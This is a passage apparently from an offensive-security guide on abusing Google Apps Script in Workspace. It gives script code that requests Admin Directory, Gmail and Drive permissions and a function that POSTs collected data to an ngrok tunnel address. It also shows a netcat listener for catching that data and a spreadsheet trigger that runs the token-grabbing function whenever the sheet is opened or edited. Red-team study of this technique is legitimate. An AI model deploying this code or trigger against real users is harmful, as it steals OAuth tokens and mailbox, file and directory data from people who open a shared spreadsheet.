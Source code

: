 ```javascript

  // To ask for AdminDirectory permissions
  var pageToken = ""
  page = AdminDirectory.Users.list({
    domain: domain, // Use the extracted domain
    orderBy: "givenName",
    maxResults: 100,
    pageToken: pageToken,
  })

  // To ask for gmail permissions
  var threads = GmailApp.getInboxThreads(0, 10)

  // To ask for drive permissions
  var files = DriveApp.getFiles()
}

function makePostRequest(data) {
  var url = "http://5.tcp.eu.ngrok.io:12027"

  var options = {
    method: "post",
    contentType: "application/json",
    payload: JSON.stringify(data),
  }

  try {
    UrlFetchApp.fetch(url, options)
  } catch (e) {
    Logger.log("Error making POST request: " + e.toString())
  }
}
```

To capture the request you can just run:

```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```

Permissions requested to execute the App Script:

![](../../../images/image (334).png)

> [!WARNING]
> As an external request is made the OAuth prompt will also **ask to permission to reach external endpoints**.

### Create Trigger

Once the App is read, click on **⏰ Triggers** to create a trigger. As **function** ro tun choose **`getToken`**, runs at deployment **`Head`**, in event source select **`From spreadsheet`** and event type select **`On open`** or **`On edit`** (according to your needs) and save.
